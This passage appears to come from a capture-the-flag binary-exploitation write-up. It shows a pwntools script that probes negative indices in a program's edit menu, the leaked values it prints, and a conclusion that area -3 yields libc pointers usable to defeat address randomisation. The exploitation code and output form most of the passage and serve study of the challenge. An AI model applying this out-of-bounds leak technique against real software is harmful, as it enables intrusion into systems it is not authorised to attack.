 ```python
    p.sendlineafter(b'edit', str(idx).encode())
    
    # Check each field
    for i, field in enumerate(['x', 'y', 'width', 'height']):
        if i > 0:
            p.sendline(b'1')  # Answer previous field
        
        data = p.recvuntil(b'): ')
        try:
            value = int(data.split(b'current: ')[-1].split(b')')[0])
            
            # Check if it's a libc address
            if 0x7f0000000000 < value < 0x7fff00000000:
                offset = value - actual_base
                log.success(f"{field}: {hex(value)} -- Offset: {hex(offset)}")
            else:
                log.info(f"{field}: {hex(value)}")
        except:
            log.warning(f"{field}: Parse failed")
    
    # Finish edit
    p.sendline(b'1')
    p.sendlineafter(b'): ', b'http://test.com')
    p.sendlineafter(b'): ', b'test')

p.close()
```

**Test results:**
```
=== Testing area -1 ===
x: Parse failed
y: 0x742f2f3a70747468
width: 0x6d6f632e747365
height: 0x0

=== Testing area -2 ===
All zeros

=== Testing area -3 ===  ← BINGO!
x: Parse failed
y: 0x0
width: 0x7fba27bbc8e0 -- Offset: 0x1e78e0   ✓ Libc address
height: 0x7fba27bbd5c0 -- Offset: 0x1e85c0  ✓ Libc address

=== Testing area -4 ===
y: 0x7ffc4a114f30 (stack address, not useful)
width: 0x7fba27bbd5c0 -- Offset: 0x1e85c0  ✓ Libc address
```

**Conclusion:** Area `-3` reliably contains libc pointers in both width and height fields!

---